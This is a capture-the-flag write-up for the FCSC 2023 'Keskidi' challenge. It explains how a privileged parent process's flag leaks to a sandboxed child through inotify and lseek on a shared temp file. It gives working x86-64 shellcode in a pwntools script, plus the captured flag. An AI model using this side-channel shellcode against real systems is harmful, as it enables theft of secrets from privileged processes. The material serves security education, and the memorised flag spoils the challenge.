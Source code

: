 # FCSC 2023 : Keskidi writeup

## Brief Summary
Essentially, we have an executable which calls `fork()`, the child process is unprivileged and runs some user provided shellcode, while the parent process does some operations on a temporary file (accessible from both processes via  a file descriptor) based on the content of the flag.

*Note: For convenience I added symbols using objcopy into a new binary `keskidi_s` , and I refer to them in this WU for clarity*

## Before forking

- The program creates a temporary file, saves its fd `tmp_fd` in the `.bss` at `tmp_fd`
- It then generates 4096 bytes that are then copied into the temporary file, and into the `.bss` at `tmp_buff`.

*Note: because there are only 255 non-null possibles chars, and we generate 4096 bytes, given a flag character, it is extremely unlikely that the buffer and temporary file do not contain it at least once.*

## After forking 
### What is the parent process doing ?

First, the parent opens `flag.txt`, copies its content to a local buffer `flag_buf`
Then it follows this procedure (decompilation from ghidra + variables renamed)

```C
  len_flag = strlen(flag_buf);
  for (i = 0; i < (int)len_flag; i = i + 1) {
    head = &tmp_buff;
    do {
      head = (undefined *)memchr(head,(int)flag_buf[i],0x1000 - (long)(head + -0x4060));
      if (head != (undefined *)0x0) {
        lseek(tmp_fd,(__off_t)(head + -0x4060),0);
        write(tmp_fd,&zero,1);
        syncfs(tmp_fd);
        head = head + 1;
      }
    } while (head != (undefined *)0x0);
  }
  flag_fd = close(tmp_fd);
```

Relevant things to note :
- each time a character is written, `syncfs()` is called, which ensures the write is propagated to the file system
- at each write, the position indicator of the tmp file is set by to some value, say `j-1`, by the `lseek` call, then to `j` by the call to `write()`
- We have that `flag[i]==tmp_buff[j-1]`

### What is the child process doing ?

It's quite straightforward, a user provided shellcode of length at most 256 bytes is ran into a freshly mmaped region in memory of size 256 bytes. At shellcode execution, this region is not writable.

## The Idea
Everytime a call to `syncfs` is used in the parent we output the corresponding flag character in the child, by peeking into `tmp_buffer`, using the head of the position indicator file, which we can get using an `lseek(tmp_fd,0,SEEK_CUR)` syscall. 

By looking into gdb, I found that tmp_fd is reliably equals to 4, and saw that `SEEK_CUR = 2` by compiling then running an appropriate C code that prints it.

The `inotify` API is exactly what we are looking for to peek on writes on a file. It is a family of syscalls which allow for monitoring of the filesystem.

Calling `inotify_init()` will return a special file descriptor, say `ifd`, that is blocking on `read` (stops execution) until an event happens.

Then, calling `inotify_add_watch(ifd,'/proc/self/fd/4',IN_MODIFY)` will make it so that modification events (IN_MODIFY) on the temporary file (accessible via `'/proc/self/fd/4'` filename) will be registered in ifd

Reading from `ifd` will block until a new event has been registered.

So the idea is to have a loop in the child, in which at each iteration we do the following :
- wait for a write event (ie, read from `ifd`)
- retrieve the position indicator `j` of tmp_fd via `lseek`, 
- write `tmp_buff[j-1]` to `stdout`

Easy right ? Except that if a character is found multiple times in the `tmp_buffer`, there will be multiple writes for this character into the tmp file.

To circumvent this issue, I made the assumption (which luckily turned out to be right :P) that no two consecutive flag characters are equal, and so I adjusted the shellcode to only print a character to stdout if it is different from the previous.

## Exploit

Here is the bulk of the exploit.
I had to run it a number of times because sometimes some characters are missed

```python
ret_addr_off = 0x13c0
tmp_buff_off = 0x4060
tmp_buff_fd = 0x4040
tmp_fd = 4
tmp_name = b'/proc/self/fd/4\x00'
sc = b''

sc += asm(
        f"""
        pop r8
        add r8, {tmp_buff_off - ret_addr_off}
        
        xor rax, rax
        add al, 253
        syscall

        mov rdi, rax
        mov r10, {int.from_bytes(tmp_name[8:],'little')}
        push r10
        mov r10, {int.from_bytes(tmp_name[:8],'little')}
        push r10
        mov rsi, rsp
        mov rdx, 2
        xor rax, rax
        add al, 254
        syscall
        mov rcx, rax

        mov rbx, rdi
        xor r9, r9
        peek:
            mov rdi, rbx
            mov rdx, 16
            xor rax, rax
            syscall

            mov rdi, 4
            xor rsi, rsi
            mov rdx, 1
            xor rax, rax
            add al, 8
            syscall

            mov rax, QWORD PTR [rax - 1 +r8]
            push rax
            shl rax,56
            cmp rax,r9
            je peek

            mov r9, rax
            
            mov rdi, 1
            mov rsi, rsp
            mov rdx, 1
            xor rax, rax
            add al, 1
            syscall

            cmp r8, r8
            je peek
        """
        )
        
io = start()
io.send(sc + b"\n")
io.interactive()
```

## FLAG
```
[*] '/home/skuuk/fcsc23/keskidi/keskidi_s'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to challenges.france-cybersecurity-challenge.fr on port 2103: Done
[*] Switching to interactive mode
FCSC{5cda7f51ba4724231c8eb5a29c970423b73a7d462e3075ed39ec3ab5d3fbc4e8}[*] Got EOF while reading in interactive
$ 
```



